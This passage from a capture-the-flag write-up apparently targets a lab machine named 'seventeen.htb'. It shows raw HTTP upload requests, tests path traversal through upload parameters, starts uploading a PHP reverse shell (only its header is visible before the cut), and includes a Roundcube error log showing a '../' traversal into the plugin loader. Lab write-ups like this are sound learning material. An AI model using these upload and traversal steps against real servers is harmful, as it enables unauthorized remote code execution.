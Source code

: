 foobar

------WebKitFormBoundaryCfaZTEadbHNAVxAO
Content-Disposition: form-data; name="stud_no"

31234
------WebKitFormBoundaryCfaZTEadbHNAVxAO
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryCfaZTEadbHNAVxAO--
```

Okay so we could try to modify the ```filename``` and the ```stud_no``` parameter for path traversal.

Lets first test if the ```stud_no``` defines the directory the files get saved into.
Browsing to http://seventeen.htb:8000/oldmanagement/files/31234/ confirms that the directory exists.

Is our testfile in there?
**It is!**
```
┌──(kali㉿kali)-[~]
└─$ curl http://seventeen.htb:8000/oldmanagement/files/31234/test.txt  
foobar
```
Lets try to upload the ```php reverse shell``` and try to trigger it.

```
POST /oldmanagement/save_file.php HTTP/1.1
Host: seventeen.htb:8000
Content-Length: 5872
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seventeen.htb:8000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoU7e61zJ2uFx22E8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://seventeen.htb:8000/oldmanagement/student_profile.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c73883b618026b87686ef5ed69bf6509
Connection: close

------WebKitFormBoundaryoU7e61zJ2uFx22E8
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)